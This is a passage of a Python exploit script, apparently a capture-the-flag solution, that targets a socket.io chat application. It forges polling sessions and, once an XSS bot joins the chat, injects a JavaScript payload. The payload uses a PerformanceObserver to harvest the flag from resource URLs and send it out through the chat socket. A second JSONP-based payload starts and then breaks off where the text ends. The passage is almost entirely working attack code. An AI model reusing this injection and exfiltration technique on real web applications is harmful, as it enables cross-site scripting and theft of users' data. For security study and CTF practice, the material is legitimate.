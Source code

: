 ``` py
        'EIO': 4,
        'transport': 'polling',
        't': 'bingus',
    })
    assert res.status_code == 200, res.status_code

    socket_session = json.loads(res.text[1:])
    print('fake session', socket_session)

    res = session.post(f'{base_url}/socket.io/', params = {
        'EIO': 4,
        'transport': 'polling',
        't': 'P3qHGUZ',
        'sid': socket_session['sid'],
    }, data = b'40')
    assert res.status_code == 200, res.status_code

    return socket_session['sid']

bot_session = requests.Session()
login = bot_session.post(f'{base_url}/', data = {
    'name': 'FizzBuzz101',
}, allow_redirects=False)
assert login.status_code == 302, login.status_code

sio = socketio.Client(http_session=bot_session)
ready = False

@sio.event
def connect():
    global ready

    print('connected!')

    # fake disconnect event so that the bot can connect as well
    sio.emit('disconnect')
    time.sleep(1)
    ready = True
    print('ready for bot!')

@sio.event
def message(data):
    global ready

    if not ready:
        return

    print('message', data)
    if data['content'] == 'FizzBuzz101 joined.': # XSS bot opened the chat
        first_sid = create_sid()
        js_payload = """
(window.exfil = data => window.top.opener.top.socket.emit('message', data))
(window.observer = new parent.PerformanceObserver((list) => { list.getEntries().forEach((entry) => { window.exfil('Flag: ' + decodeURIComponent(entry.name.split('/').pop())); }); }))
(window.observer.observe({ type: 'resource', buffered: true }))
""".strip().replace('\n', ',')
        sio.emit('message', '\\"+'+js_payload+');//')

        second_sid = create_sid()
        jsonp_url = f'{base_url}/socket.io/?EIO=4&transport=polling&t=bingus&sid={second_sid}&j=0'
        js_payload = """
(window.secret=window.open('','secret'))
(window.a=window.top.document.getElementById('xss').cloneNode())
```